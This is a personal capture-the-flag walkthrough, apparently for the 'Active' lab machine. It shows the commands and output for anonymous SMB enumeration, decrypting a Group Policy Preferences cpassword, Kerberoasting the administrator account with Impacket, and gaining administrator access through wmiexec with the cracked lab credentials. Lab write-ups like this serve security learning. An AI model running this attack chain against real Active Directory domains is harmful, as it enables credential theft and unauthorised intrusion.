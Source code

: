 ```bash
sudo nmap -sV -sC 10.129.104.132

```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 09:31 CST
Nmap scan report for 10.129.104.132
Host is up (0.0085s latency).
Not shown: 983 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-23 15:31:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-23T15:32:30
|_  start_date: 2025-01-23T15:29:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

```

```bash
smbclient -N //10.129.104.132/Replication
```

```bash
smbmap -R Replication -H 10.129.104.132
```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/668453a2-4d8e-409c-9b14-4995ce6d786f/7f02d19f-e1fd-4173-91f6-80d10b392111/image.png)

After seeing these files on the walkthrough it shows a groups.xml which i could see so i used the following to download all

```bash
smbclient -N //10.129.104.132/Replication

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *

```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/668453a2-4d8e-409c-9b14-4995ce6d786f/e30cc1dc-5212-4c7c-9b8c-760ee5120f90/image.png)

in truth for whatever reason i coldnt get the file > so i had to grab online 

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-
8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06"
uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName=""
description=""
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw
/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0"
userName="a

In this xml we find the username and a encrypted passsword,m after decriptopnm 

```bash
gpp-decrypt
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

WE GOT DAT PASSWORD, NOW LETS GET INTO THAT USERS SMB

```bash
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.129.104.132/Users
```

User flag:

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/668453a2-4d8e-409c-9b14-4995ce6d786f/de704f63-db4a-46ab-b535-95f3b24d95a6/image.png)

To use this account for further compromise we can use impacket to enumerate more users

```bash
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.104.132
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Querying 10.129.104.132 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2018-07-18 14:06:40.351723  2025-01-23 09:30:08.494960 
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 13:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 15:14:38.402764  2018-07-21 09:01:30.320277 

```

okay so, we try now using impacket to see what users have SPN enabled hinting at kerberoasting vulns with thwe following

```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.129.104.132

```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/668453a2-4d8e-409c-9b14-4995ce6d786f/b74c68ca-82f8-48b9-9cf3-1f11a8817419/image.png)

We see admin has it enabled!

The following command allows us to grab the hash

```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.129.104.132 -request

```

After cracking this we used 

```bash
wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.104.132

```

then grabbed root! very cool!
